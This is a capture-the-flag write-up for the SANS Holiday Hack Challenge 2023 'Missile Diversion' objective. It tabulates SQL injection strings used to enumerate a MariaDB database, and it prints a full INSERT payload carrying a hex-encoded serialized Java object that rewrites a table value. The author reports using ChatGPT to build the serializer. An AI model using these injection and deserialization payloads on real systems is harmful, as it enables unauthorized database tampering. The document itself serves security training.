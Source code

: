 # OBJECTIVE 22 - Missile Diversion #

## OBJECTIVE : ##
>Thwart Jack’s evil plan by re-aiming his missile at the Sun.
#  

## HINTS: ##
<details>
  <summary>Hints provided for Objective 22</summary>
  
>-  Wombley thinks he may have left the admin tools open. I should check for those if I get stuck.
</details>

#  

## PROCEDURE : ##
This challenge continues where OBJECTIVE 21 left off.  We are still connected to the **NanoSat MO Base Station Tool** and need to figure out how to re-aim a missile that is currently aimed at Earth.

After some playing-around with the **NanoSat MO Base Station Tool** I found that by going to the **Action Service** tab, selecting the `Debug` action,  clicking on **submitAction** and clicking **Edit** I was able to pass on SQLI test strings that seemed to be parsed by the program.  For example if I enter `OR 1=1;` as value string then go to the **Parameter Service** tab,  select `Debug` and click on **getValue**, I get the output:  `rawValue: VERSION() OR 1=1: 1`

Using this method I was able to get some interesting information which I enumarted in the following table:

SQLI | String	Response
:---|:---
OR 1=1;|	VERSION() OR 1=1:1
;	VERSION():| 11.2.2-MariaDB-1:11.2.2+maria~ubu2204
=1 order by 1,2|	Unknow column ‘2’ in ‘order clause’
=1 order by 1	|VERSION()=1:0
; select table_name from information_schema.tables|	Output is very long and needs to be captured using Wireshark as per the procedure followed in Objective 20 – Camera Access but gives us a list of all the tables in the schema which is very useful to enumerate the rest.
; select * from target_coordinates|	Id: 1 \| lat: 1.14514 \| lng: -145.262
; select * from pointing_mode	|id: 1 \| numerical_mode: 0 \|
; select * from pointing_mode_to_string|	Id: 1 \| numerical_mode: 0 \| str_mode: Earth Point Mode \| str_desc: When pointing_mode is 0, targeting system applies the target_coorinates to earth. \| id: 2 \| numerical_mode: 1 \| str_mode: Sun Point Mode \| str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates.
; select * from messaging	|id: 1 \| msg_type: RedAlphaMsg \| msg_data: RONCTTLA \| id: 2 \| msg_type: MsgAuth \| msg_data: 220040DL \| id: 3 \| msg_type: LaunchCode \| msg_data: DLG2209TVX \| id: 4 \| msg_type: LaunchOrder \| msg_data: CONFIRMED \| id: 5 \| msg_type: TargetSelection \| msg_data: CONFIRMED \| id: 6 \| msg_type: TimeOnTargetSequence \| msg_data: COMPLETE \| id: 7 \| msg_type: YieldSelection \| msg_data: COMPLETE \| id: 8 \| msg_type: MissileDownlink \| msg_data: ONLINE \| id: 9 \| msg_type: TargetDownlinked \| msg_data: FALSE \| 
; select * from sattelite_query	|**JAVA CODE**
; show columns from satellite_query;|	COLUMN_NAME: jid \| COLUMN_TYPE: int(11) \| IS_NULLABLE: NO \| COLUMN_KEY: PRI \| COLUMN_DEFAULT: null \| EXTRA: auto_increment \|COLUMN_NAME: object \| COLUMN_TYPE: blob \| IS_NULLABLE: YES \| COLUMN_KEY: COLUMN_NAME: results \| COLUMN_TYPE: text \| IS_NULLABLE: YES \| COLUMN_KEY:convertedValue: null COLUMN_DEFAULT: null \| EXTRA: \| COLUMN_DEFAULT: null \| EXTRA: \|
; show columns from pointing_mode|	COLUMN_NAME: id \| COLUMN_TYPE: int(11) \| IS_NULLABLE: NO \| COLUMN_KEY: PRI \| COLUMN_DEFAULT: null \| EXTRA: auto_increment \| COLUMN_NAME: numerical_mode \| COLUMN_TYPE: int(11) \| IS_NULLABLE: YES \| COLUMN_KEY: \| COLUMN_DEFAULT: null \| EXTRA: \|

First of all – hats off for including a [Wargames reference](https://i.gifer.com/7Mzk.gif) in the `messaging` table.  Secondly by using SQL Injection it was possible to retrieve a lot of useful information.  Namely:
-	The coordinates are useless to us and we do nto need to be concerned with them.
-	The table `pointing_mode` determines where the missile is pointed and by changing the value stored under column `numerical_mode` from `0` to `1` we can re-aim the missiles to the sun.
-	The table `sattelite_query` has some kind of query in the object column and under results there is some Java code

I pasted the string I found in `satellite_query` as well as the java code in [ChatGPT](https://chat.openai.com/) and from there I learned that the string in the object column is a **serialized java object**.  The Java code retrieved from the results column takes this serialised object as it’s input and parses a SQL query, SQL update or retrieves a file.

I prompted ChatGPT to create a java program that would accept a SQL command as input and would use the Java code I retrieved to prepare a hex string that can be fed back to it as an input.  Using this program I created a hex string for the SQL command ``UPDATE pointing_mode SET numerical_mode = 1 WHERE Id = 1``.
I then included the resulting serialized hex in a SQL command to add it as a new entry in `satellite_query` and I pasted this into the `debug` field similarly to how I exfiltrated the database info earlier:
```
; INSERT INTO satellite_query (jid, object)
VALUES (2, 0xaced00057372001f536174656c6c697465517565727946696c65466f6c6465725574696c69747912d4f68d0eb392cb0200035a0007697351756572795a000869735570646174654c000f706174684f7253746174656d656e747400124c6a6176612f6c616e672f537472696e673b7870010174003855504441544520706f696e74696e675f6d6f646520534554206e756d65726963616c5f6d6f6465203d2031205748455245204964203d2031);
```
(NOTE the preceeding `;` and the `0x` before the hex string)

This updated the value of `numerical_mode` in `pointing_mode` from `0` to `1` thus pointing the missile safely towards the sun and away from the Earth.

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2023/assets/60655500/74e7b554-6a65-421d-8e81-f577bad6a9ab)


This write-up is almost ridiculously short for a challenge that took me **close to seven hours** to complete!  

